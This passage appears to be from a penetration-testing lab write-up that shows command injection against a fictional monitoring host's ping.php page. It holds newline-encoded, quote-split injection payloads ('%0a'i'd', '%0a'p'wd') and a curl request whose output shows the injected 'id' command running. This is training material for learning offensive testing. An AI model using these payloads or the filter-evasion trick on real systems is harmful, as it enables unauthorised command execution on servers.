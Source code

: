 **Command Injection**

![Firefox - Monitoring Help Page Commands](./assets/screenshots/attacking_enterprise_networks_external_testing_44.png)

![Burp Suite - Monitoring GET Ping](./assets/screenshots/attacking_enterprise_networks_external_testing_45.png)

```bash
%0a'i'd
```

```
┌──(nabla㉿kali)-[~]
└─$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'd"

[SNIP]

uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

```bash
%0a'p'wd
```

